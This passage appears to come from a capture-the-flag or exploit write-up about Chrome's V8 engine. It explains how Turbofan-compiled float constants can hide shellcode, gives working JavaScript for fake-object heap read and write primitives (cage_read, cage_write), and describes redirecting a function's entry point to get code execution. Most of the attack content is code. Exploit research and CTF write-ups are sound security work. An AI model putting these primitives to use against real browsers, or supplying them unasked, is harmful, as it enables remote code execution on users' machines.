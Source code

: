 ```
   0x00005cd8614006a8:  vmovq  xmm0,r10
...
```

When triggered, Turbofan compiles immediate numbers (such as floats) into `movabs <reg>, <val>` instructions and those `<val>`s becomes our small pockets of shellcode. I learn this trick from [this](https://anvbis.au/posts/code-execution-in-chromiums-v8-heap-sandbox/) and [this](https://lyra.horse/blog/2024/05/exploiting-v8-at-openecsc/) and [this](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html). The last thing we need to do is to modify the function's entrypoint so it will jump to `<val>` when called. Therefore we need some primitives to arbitrarily read & write within the heap region, or the "cage". 

### idkwhy

If I don't put value inside an array, Turbofan will not compile code into `movabs <reg>, <val>` :
```js
function foo() {
  return -1.1885958788264018e+148;
}
// or 
function foo() {
  let a = -1.1885958788264018e+148;
  return a;
}
// wont work
```
 
## cage_read & cage_write

In order to cage read & write, we need an object with a float array map that allows us to controll its elements, so we can leak the value at `*(element + 8)`.

```js
let fake_holder = [itof(float_arr_map), 1.1, 1.2]; // holds the fake object. 
let fake = fakeobj(addrof(fake_holder) + 0x20n);

function cage_read(addr) {
  fake_holder[1] = itof(addr - 8n + 1n + 0x200000000n); // + 0x200000000n to set array length to 1
  return ftoi(fake[0]);
}

function cage_write(addr, val) {
  fake_holder[1] = itof(addr - 8n + 1n + 0x200000000n); // + 0x200000000n to set array length to 1
  fake[0] = itof(val);
}
```

## Code execution

As I explained earlier, I need to modify the function's entry point to jump to the middle of immediate numbers, where my shellcode pocket is located, in order to achieve code execution. The entry point is found at `function->code->instruction_start`.
